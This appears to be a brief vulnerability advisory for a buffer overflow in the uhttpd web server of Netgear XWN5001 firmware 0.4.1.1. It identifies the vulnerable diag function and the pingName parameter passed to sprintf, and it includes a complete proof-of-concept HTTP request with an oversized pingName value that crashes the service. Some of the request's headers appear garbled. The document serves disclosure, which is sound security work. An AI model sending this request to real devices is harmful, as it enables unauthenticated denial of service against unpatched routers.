

# xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary has a buffer overflow vulnerability. When a specific network packet is sent to the uhttpd binary, the sprintf operation crashes. This vulnerability can be exploited by a local or remote unauthenticated attacker.
## detail
The vulnerability is located in the function diag at address 0x439D50 of the binary usr/sbin/uhttpd. 

Parameter pingName is passed to sprintf (line 26 in the picture) and cause the issue.

diag:




## Send package

```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

pingName=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&diag_type=1&det_multiplexing=123&submit_flag=diag
```

